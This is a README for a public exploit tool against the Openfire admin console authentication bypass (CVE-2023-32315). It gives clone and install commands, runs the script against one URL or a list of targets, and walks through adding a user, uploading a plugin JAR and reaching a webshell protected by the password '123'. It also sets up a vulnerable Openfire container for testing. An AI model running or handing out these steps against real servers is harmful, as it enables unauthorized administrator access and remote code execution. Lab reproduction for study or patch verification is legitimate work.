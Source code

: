 # CVE-2023-32315
Openfire Console Authentication Bypass Vulnerability with RCE plugin

## Setup
```
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
```
## Usage
```
python3 CVE-2023-32315.py -t http://127.0.0.1:9000
python3 CVE-2023-32315.py -l lists.txt
```
### Step
1. Run exploit
2. login with newly added user
3. goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
4. goto tab server > server settings > Management tool
5. Access websehll with password "123"
## Vulnerable Openfire Docker
```
docker pull nasqueron/openfire:4.7.1
sudo docker run --name openfire -d --restart=always --publish 9090:9090 --publish 5222:5222 --publish 7777:7777 --volume /srv/docker/openfire:/var/lib/openfire nasqueron/openfire:4.7.1
```
## Reference
- https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass
- https://github.com/5rGJ5aCh5oCq5YW9/CVE-2023-32315exp
